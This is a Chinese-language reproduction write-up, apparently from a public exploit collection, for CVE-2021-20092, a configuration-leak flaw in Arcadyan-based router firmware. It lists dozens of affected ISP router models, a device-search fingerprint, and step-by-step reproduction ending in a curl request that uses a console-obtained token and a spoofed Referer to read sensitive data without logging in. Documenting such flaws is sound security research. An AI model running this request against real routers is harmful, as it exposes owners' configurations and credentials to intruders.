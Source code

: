 # Arcadyan固件 cgi_i_filter.js 配置信息泄漏漏洞 CVE-2021-20092

## 漏洞描述

Buffalo WSR-2533DHPL2 固件版本 <= 1.02 和 WSR-2533DHP3 固件版本 <= 1.24 的 Web 界面没有正确限制未经授权的参与者对敏感信息的访问。

## 漏洞影响

| **Vendor**          | **Device**                         | **Found on version** |
| ------------------- | ---------------------------------- | -------------------- |
| ADB                 | ADSL wireless IAD router           | 1.26S-R-3P           |
| Arcadyan            | ARV7519                            | 00.96.00.96.617ES    |
| Arcadyan            | VRV9517                            | 6.00.17 build04      |
| Arcadyan            | VGV7519                            | 3.01.116             |
| Arcadyan            | VRV9518                            | 1.01.00 build44      |
| ASMAX               | BBR-4MG / SMC7908 ADSL             | 0.08                 |
| ASUS                | DSL-AC88U (Arc VRV9517)            | 1.10.05 build502     |
| ASUS                | DSL-AC87VG (Arc VRV9510)           | 1.05.18 build305     |
| ASUS                | DSL-AC3100                         | 1.10.05 build503     |
| ASUS                | DSL-AC68VG                         | 5.00.08 build272     |
| Beeline             | Smart Box Flash                    | 1.00.13_beta4        |
| British Telecom     | WE410443-SA                        | 1.02.12 build02      |
| Buffalo             | WSR-2533DHPL2                      | 1.02                 |
| Buffalo             | WSR-2533DHP3                       | 1.24                 |
| Buffalo             | BBR-4HG                            |                      |
| Buffalo             | BBR-4MG                            | 2.08 Release 0002    |
| Buffalo             | WSR-3200AX4S                       | 1.1                  |
| Buffalo             | WSR-1166DHP2                       | 1.15                 |
| Buffalo             | WXR-5700AX7S                       | 1.11                 |
| Deutsche Telekom    | Speedport Smart 3                  | 010137.4.8.001.0     |
| HughesNet           | HT2000W                            | 0.10.10              |
| KPN                 | ExperiaBox V10A (Arcadyan VRV9517) | 5.00.48 build453     |
| KPN                 | VGV7519                            | 3.01.116             |
| O2                  | HomeBox 6441                       | 1.01.36              |
| Orange              | LiveBox Fibra (PRV3399)            | 00.96.00.96.617ES    |
| Skinny              | Smart Modem (Arcadyan VRV9517)     | 6.00.16 build01      |
| SparkNZ             | Smart Modem (Arcadyan VRV9517)     | 6.00.17 build04      |
| Telecom (Argentina) | Arcadyan VRV9518VAC23-A-OS-AM      | 1.01.00 build44      |
| TelMex              | PRV33AC                            | 1.31.005.0012        |
| TelMex              | VRV7006                            |                      |
| Telstra             | Smart Modem Gen 2 (LH1000)         | 0.13.01r             |
| Telus               | WiFi Hub (PRV65B444A-S-TS)         | v3.00.20             |
| Telus               | NH20A                              | 1.00.10debug build06 |
| Verizon             | Fios G3100                         | 2.0.0.6              |
| Vodafone            | EasyBox 904                        | 4.16                 |
| Vodafone            | EasyBox 903                        | 30.05.714            |
| Vodafone            | EasyBox 802                        | 20.02.226            |

## 网络测绘

```
app="Arcadyan-httpd-1.0" 
```

## 漏洞复现

登录页面

![img](images/202202162258993.png)

输入任意密码跳转到 loginerror.html 页面，使用 console 调用 getToken() 获取重要参数

![img](images/202202162258052.png)

_tn 参数设置为刚刚获取到的参数, 使用curl 发送请求包获取敏感信息

```php
curl --include "http://xxx.xxx.xxx.xxx/cgi/cgi_i_filter.js?_tn=348876758" -H "Referer: http://xxx.xxx.xxx.xxx/loginerror.html"
```

![img](images/202202162258902.png)